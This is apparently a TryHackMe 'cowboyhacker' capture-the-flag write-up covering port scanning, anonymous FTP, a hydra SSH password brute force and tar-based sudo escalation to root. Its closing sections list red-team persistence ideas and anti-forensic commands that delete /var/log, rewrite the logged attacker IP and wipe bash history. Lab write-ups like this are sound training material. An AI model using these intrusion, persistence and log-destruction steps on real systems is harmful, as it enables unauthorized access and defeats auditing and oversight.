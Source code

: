# THM:cowboyhacker

URL: [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker) [Easy]

## Reconnaissance

Description of the room:

> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

## Scanning

### Scan: `nmap`

Ran the following:

> `nmap -vv xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Scan: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://xxx.xxx.xxx.xxx`

This resulted in two directories being found:

* `/images/` - only images.
* `/server-status` - got `403 Forbidden`.

*Also see: [gobuster.log](gobuster.log)*

## Gaining Access


### FTP Service

Since FTP was running, we log in as `anonymous`:

> `ftp anonymous@xxx.xxx.xxx.xxx`

After doing a directory listing with `ls` or `dir`, we see there are two files there: `locks.txt` and `task.txt`. We retrieve these files back down to our workstation:

> `mget *.txt ./`

This does a (multiple)-get of `*.txt` files and puts them in our current directory on the workstation. The two files:

* [locks.txt](locks.txt)
* [task.txt](task.txt)

### Cracking SSH password for `lin`

We know from the `task.txt` file that the username is `lin`. The contents of `locks.txt` look at lot like leet-speak passwords. So, we can use hydra to see if any of those are the password for the `lin` account:

> `hydra -l lin -P ./locks.txt ssh://10.10.47.229`

And we find that one is found:

```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-19 21:01:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.47.229:22/
[22][ssh] host: 10.10.47.229   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-19 21:02:04
```

*Also see: [hydra.log](hydra.log)*

With that username and password, we can SSH into the box:

> `ssh lin@xxx.xxx.xxx.xxx`

And we use the password `RedDr4gonSynd1cat3` found by hydra, above. We are now logged in as an **unprivileged account** and can retrieve the `~/user.txt` flag, the first flag for this room.

## PE: Sudo Privileges

Logged-in as user `lin`, we check to see if we have any `sudo` permission:

> `sudo -l`

We do! Oddly enough, it is for the `tar` command. We can go look up privesc techniques over on gtfobins:

> https://gtfobins.github.io/gtfobins/tar/#sudo

Using this technique, that means that as `tar` is running as root, we could coerce it to run a command upon a checkpoint. For example, it could open a new bash prompt. Since tar would be running as `root`, that bash prompt would be running as root. So, we execute the following:

> `sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash`

You see an error message, but **it does dump you at a root prompt!** From here, one can `cat /root/root.txt` to complete the room. That is the second flag to capture for this room.


## Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {}\;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: `2022-01-19 21:18:28`